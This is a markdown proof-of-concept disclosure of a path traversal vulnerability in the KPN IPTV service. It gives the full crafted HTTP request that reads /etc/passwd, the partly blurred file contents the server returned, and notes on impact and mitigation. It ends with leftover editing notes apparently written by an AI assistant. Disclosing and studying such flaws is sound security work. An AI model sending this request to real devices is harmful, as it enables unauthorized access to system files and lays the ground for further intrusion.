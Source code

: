 # KPN IPTV File Path Traversal Vulnerability - PoC (2023)

## Overview

This report demonstrates a **file path traversal vulnerability** discovered in the KPN IPTV service, which allows an attacker to access sensitive system files, such as `/etc/passwd`, without proper authorization. The vulnerability arises from insufficient input validation, enabling directory traversal by manipulating the URL.

---

## Vulnerability Details

A **directory traversal** attack (also known as path traversal) occurs when an attacker can craft a URL that accesses files outside the intended directory scope of a web server. By adding `../` sequences, attackers can navigate up the file system and access files that should be restricted, such as configuration files or user information.

### Affected URL:
```plaintext
http://192.168.2.x:8081/Service/Controller/UI?ip=192.168.2.x&port=8081
```

# Proof of Concept (PoC)
* Malicious Request Example

* Using a crafted HTTP request, an attacker can access the sensitive /etc/passwd file. The request can be tested using Burp Suite or another HTTP proxy tool.
*Burp Suite Request:
```
http

GET /Service/Controller/UI../../../../../../../../../../../../../../../../etc/passwd?ip=192.168.2.x&port=8081 HTTP/1.1
Host: 192.168.2.x:8081
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

* In this request, the attacker exploits the path traversal vulnerability by using ../ sequences to navigate out of the web server’s intended directory structure and access the /etc/passwd file.

# Server Response

* The server responds with HTTP 200 OK, and the contents of the /etc/passwd file are returned. For privacy, the password hashes have been blurred:

plaintext
```
HTTP/1.1 200 OK
Content-Type: unknown
Content-Length: 940

root:$5$96bRk************$uTSh**************RLdK1ND*********/XLWC:0:0:root:/home/root:/bin/sh
daemon:*:1:1:daemon:/usr/sbin:/bin/sh
bin:*:2:2:bin:/bin:/bin/sh
sys:*:3:3:sys:/dev:/bin/sh
sync:*:4:65534:sync:/bin:/bin/sync
games:*:5:60:games:/usr/games:/bin/sh
man:*:6:12:man:/var/cache/man:/bin/sh
lp:*:7:7:lp:/var/spool/lpd:/bin/sh
mail:*:8:8:mail:/var/mail:/bin/sh
news:*:9:9:news:/var/spool/news:/bin/sh
uucp:*:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:*:13:13:proxy:/bin:/bin/sh
www-data:*:33:33:www-data:/var/www:/bin/sh
backup:*:34:34:backup:/var/backups:/bin/sh
list:*:38:38:Mailing List Manager:/var/list:/bin/sh
irc:*:39:39:ircd:/var/run/ircd:/bin/sh
gnats:*:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:*:65534:65534:nobody:/nonexistent:/bin/sh
ntpd:x:1001:65534:Linux User,,,:/var/shared/empty:/bin/sh
utc:$5$qkymr************$M1qu**************JoEifmNs********AiybaC:1000:1000:utc:/home/utc:/bin/sh
```

# Explanation of /etc/passwd

* The /etc/passwd file is critical for user management in Unix-based systems. It contains essential information about user accounts, including:

    * Username: The user’s login name.
    * Password hash: (If stored here, although modern systems use /etc/shadow).
    * UID: User ID.
    * GID: Group ID.
    * Home Directory: The path to the user’s home directory.
    * Shell: The default shell assigned to the user.

Although modern systems store password hashes in /etc/shadow, disclosing /etc/passwd can still reveal valuable information for further attacks.
Impact

# Exploiting this vulnerability could result in the following:
```
   * Information Disclosure: Access to /etc/passwd reveals usernames and potentially hashed passwords.
   * Privilege Escalation: Attackers may use the disclosed information to crack passwords and escalate privileges.
   * Further Exploitation: Combined with other vulnerabilities, this attack could lead to unauthorized system access.
```
# Mitigation Strategies

* To prevent directory traversal attacks like this, the following countermeasures should be implemented:

   * Input Validation: Strictly validate and sanitize all user inputs to disallow sequences like ../.
   * Directory Restrictions: Implement proper file permissions and ensure the web server does not allow access to sensitive directories.
   * Web Application Firewalls (WAFs): Deploy WAFs to detect and block malicious URL patterns indicative of path traversal attacks.

# Conclusion

*Path traversal vulnerabilities pose a significant security risk by allowing attackers to access files that should remain confidential. In this case, the KPN IPTV service was found to be vulnerable to directory traversal, which can lead to the exposure of sensitive files like /etc/passwd. Ensuring proper input validation, restricting directory access, and implementing security mechanisms like WAFs are critical to preventing such vulnerabilities.
References

    OWASP: Path Traversal
    KPN Security


### Key Improvements:
1. **Enhanced readability**: I’ve added clear sections with headers and spacing to improve the flow of information.
2. **Professional tone**: The language has been made more formal and professional, suitable for a security report.
3. **Markdown formatting**: Ensured proper Markdown elements are used (e.g., code blocks, bullet points).
4. **Mitigation section**: Highlighted specific recommendations to prevent such vulnerabilities.
5. **Conclusion and references**: Added a conclusion to summarize the importance of mitigating this type of attack and included references for further reading.

